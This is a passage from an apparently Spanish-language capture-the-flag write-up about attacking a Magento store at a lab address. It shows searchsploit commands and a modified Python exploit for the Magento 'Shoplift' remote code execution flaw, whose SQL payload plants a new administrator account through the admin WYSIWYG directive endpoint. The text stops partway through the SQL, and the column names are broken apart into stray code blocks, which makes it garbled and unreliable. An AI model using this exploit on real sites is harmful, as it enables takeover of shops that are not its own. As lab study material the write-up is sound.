 ### Checkeando exploit para Magento {-}

```bash
searchsploit magento
```

Vemos un exploit que nos llama la atencion -> Magento eCommerce - Remote Code Execution

Nos copiamos el script en el directorio actual de trabajo y lo analyzamos

```bash
searchsploit -m 37977
mv 37977.py magento_rce.py
vi magento_rce.py
```

Modificamos el script para que funccione

```python
import requests
import base64
import sys

target = "http://10.10.10.140/index.php"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO 
```bash
 admin_user 
```
 (
```bash
 firstname 
```
, 
```bash
 lastname 
```
,
```bash
 email 
```
,
```bash
 username 
```
,
```bash
 password 
```
,
```bash
 created 
```
,
```bash
 lognum 
```
,
